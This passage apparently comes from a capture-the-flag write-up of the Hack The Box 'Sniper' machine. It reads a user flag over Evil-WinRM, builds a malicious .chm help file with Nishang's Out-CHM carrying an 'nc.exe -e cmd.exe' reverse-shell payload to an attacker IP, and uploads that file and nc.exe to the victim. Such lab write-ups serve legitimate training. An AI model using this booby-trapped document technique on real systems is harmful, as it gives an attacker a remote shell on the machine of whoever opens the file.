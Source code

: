 Get the flag

```shell
*Evil-WinRM* PS C:\Users\Chris\desktop> type user.txt
b56f5fdc204fccaaa4ed7802a1fa357a
```

## Privilege Escalation

The user has a `.chm` file inside `downloads`.

![](assets/Pasted%20image%2020250612184159.png)

And the CEO left a message to `chris` for him to finish the app documentation.

![](assets/Pasted%20image%2020250612184238.png)

So it seems that the `.chm` file from `chris`'s folder is the documentation that he has to finish.

Transfer the file out to a Windows machine and open it.

We can make a malicious `.chm` file with [https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1)

```shell
Out-CHM -Payload "C:\programdata\nc.exe -e cmd.exe 10.10.14.17 4444" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
```

Transfer the `doc.chm` to Kali and then to the machine

```shell
*Evil-WinRM* PS C:\Users\Chris\downloads> upload doc.chm

Info: Uploading /home/kali/htb/sniper/doc.chm to C:\Users\Chris\downloads\doc.chm

Data: 17928 bytes of 17928 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\Users\Chris\downloads> upload nc.exe

Info: Uploading /home/kali/htb/sniper/nc.exe to C:\Users\Chris\downloads\nc.exe

Data: 79188 bytes of 79188 bytes copied
```
